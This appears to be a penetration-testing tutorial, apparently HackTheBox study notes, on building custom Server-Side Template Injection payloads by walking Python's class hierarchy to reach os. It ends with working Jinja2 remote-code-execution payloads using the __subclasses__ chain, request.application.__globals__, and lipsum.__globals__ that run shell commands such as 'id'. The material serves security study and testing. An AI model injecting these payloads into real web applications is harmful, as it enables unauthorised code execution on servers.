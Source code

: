 There will be times where we will be needing to construct a custom payload to exploit SSTI vulnerabilities. For example, a template engine that executes templates inside a sandbox, which can make exploitation difficult or impossible.
## Understanding Payload Creation with Python
1. The first step is to open up a Python environment and understand Python's hierarchy. Using `__mro__` or `mro()`, we can go back up the three of inherited objects in the Python environment.
```python
import flask

s = 'HTB'
s.__class__.mro()[1].__subclasses__()

[<class 'type'>, <class 'weakref'>, <class 'weakcallableproxy'>, <class 'weakproxy'>, <class 'int'>, <class 'bytearray'>, <class 'bytes'>, <class 'list'>, <class 'NoneType'>, <class 'NotImplementedType'>, <class 'traceback'>, <class 'super'>, <class 'range'>, <class 'dict'>, <class 'dict_keys'>, <class 'dict_values'>, <class 'dict_items'>, <class 'dict_reversekeyiterator'>, <class 'dict_reversevalueiterator'>, <class 'dict_reverseitemiterator'>, <class 'odict_iterator'>, <class 'set'>, <class 'str'>, <class 'slice'>, <class 'staticmethod'>, <class 'complex'>, <class 'float'>, <class 'frozenset'>, <class 'property'>, <class 'managedbuffer'>, <class 'memoryview'>, <class 'tuple'>, <class 'enumerate'>, <class 'reversed'>, <class 'stderrprinter'>, <class 'code'>, <class 'frame'>, <class 'builtin_function_or_method'>, <class 'method'>,
 <SNIP>
```
2. Next is to look for useful classes that can facilitate remote code execution. We can use the following function to do so:
```python
def searchfunc(name):
     x = s.__class__.mro()[1].__subclasses__()
     for i in range(len(x)):
        fn = x[i].__name__
        if fn.find(name) > -1:
            print(i, fn)

searchfunc('warning')
```
The reason we are searching for `warning` is because, this class imports Python's `sys` module, and from `sys`, we can reach the `os` module.
3. We will now attempt to reach the `import` by walking through the hierarchy.
```python
x = s.__class__.mro()[1].__subclasses__()
y = x[VALUE] # Note: Replace "VALUE" with the actual integer result from searchfunc

z = y()._module.__builtins__
for i in z:
	if i.find('import') > -1:
		print(i, z[i])
```
4. Test for RCE
```python
y()._module.__builtins__['__import__']('os').system('echo RCE')
```
## Custom Jinja2 Payload
We can replicate the steps above to achieve RCE using custom payload in Jinja template.

1. To test, we can start with the following payload
```python
{{ ''.__class__.__mro__ }}
```
2. Once confirmed, show all subclasses or retrieve the total number of subclasses
```python
{{ ''.__class__.__mro__[1].__subclasses__() }}
{{ ''.__class__.__mro__[1].__subclasses__()|length }}
```
3. To make step 2 easier, we can just craft a for loop to put index on all subclasses.
```python
{% for i in range(454) %} {{i}} {{''.__class__.__mro__[1].__subclasses__()[i].__name__}} {% endfor %}

# Note: The value of range() should be the total length of subclasses.
```
4. Again, we will be looking for `catch_warnings` subclass. Once we have identified its index number, we can now craft our final payload to achieve RCE.
```python
{{''.__class__.__mro__[1].__subclasses__()[214]()._module.__builtins__['__import__']('os').system('id')}}
```

Additionally, we can also use specific Jinja2's specific functions to exploit SSTI vulnerabilities. These are the `request` and `lipsum`:
```python
{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}
```
```python
{{lipsum.__globals__.os.popen('id').read()}}
```